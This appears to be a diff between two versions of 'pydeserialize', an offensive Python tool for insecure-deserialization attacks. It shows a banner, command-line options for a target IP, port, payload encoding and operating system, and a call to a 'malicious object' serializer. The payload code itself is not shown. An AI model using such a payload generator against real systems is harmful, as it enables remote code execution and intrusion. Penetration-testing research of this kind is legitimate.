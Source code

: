 ```diff
+ ___ _ _ _| |___ ___ ___ ___|_|___| |_|___ ___ 
+| . | | | . | -_|_ -| -_|  _| | .'| | |- _| -_|
+|  _|_  |___|___|___|___|_| |_|__,|_|_|___|___|
+|_| |___|                                                                                                                                                                            
+     v0.0.8 - @joaoviictorti                                                   
+"""
+
+def argumentos() -> None:
+    
+    parse = argparse.ArgumentParser(prog=banner(),usage="pydeserialize -ip 192.168.4.113 -p 80 -o Windows",formatter_class=RawTextHelpFormatter)
+    parse.add_argument("--version",action="version",version="pydeserialize 0.0.7")
+    parse.add_argument("-ip",action="store",type=str,dest="ip",required=True, help="Insert ip")
+    parse.add_argument("-p",action="store",type=str,dest="port",required=True, help="Insert port")
+    parse.add_argument("-e",action="store",type=str,dest="encode",choices=["b64","shell","urlencode","hex"],default="",required=True,help="Insert encoding")
+    parse.add_argument("-o",action="store",type=str,dest="SO",choices=["Windows","Linux"],required=True,help="Insert operational system")
+    args = parse.parse_args()
+    
     ObjetoMalicioso(args.ip,args.port,args.encode,args.SO).Objeto_Serializado()
```

### Comparing `pydeserialize-0.0.7/pydeserialize.egg-info/PKG-INFO` & `pydeserialize-0.0.8/pydeserialize.egg-info/PKG-INFO`

 * *Files 18% similar despite different names*

```diff
@@ -1,106 +1,106 @@
-Metadata-Version: 2.1
-Name: pydeserialize
-Version: 0.0.7
-Summary: Insecure deserialization in python
-Home-page: https://github.com/joaoviictorti/pyserialize
-Author: joaoviictorti (viictorjj)
-Author-email: joaovictorti08@gmail.com
-License: MIT License
-Keywords: serialize insegura desserialize
-Classifier: Development Status :: 5 - Production/Stable
-Classifier: Environment :: Console
-Classifier: Intended Audience :: System Administrators
-Classifier: License :: OSI Approved :: GNU General Public License v3 (GPLv3)
-Classifier: Natural Language :: English
-Classifier: Operating System :: OS Independent
-Classifier: Programming Language :: Python
-Classifier: Programming Language :: Python :: 3
-Classifier: Programming Language :: Python :: 3.8
-Classifier: Programming Language :: Python :: 3.9
-Classifier: Programming Language :: Python :: 3.10
-Classifier: Programming Language :: Python :: 3.11
-Classifier: Programming Language :: Python :: 3 :: Only
-Classifier: Programming Language :: Python :: Implementation :: PyPy
-Classifier: Topic :: Security
-Classifier: Topic :: System :: Networking
-Classifier: Topic :: System :: Operating System
-Classifier: Topic :: System :: Systems Administration
-Classifier: Topic :: Utilities
-Requires-Python: >=3.6, <4
-Description-Content-Type: text/markdown
-License-File: LICENSE
-
```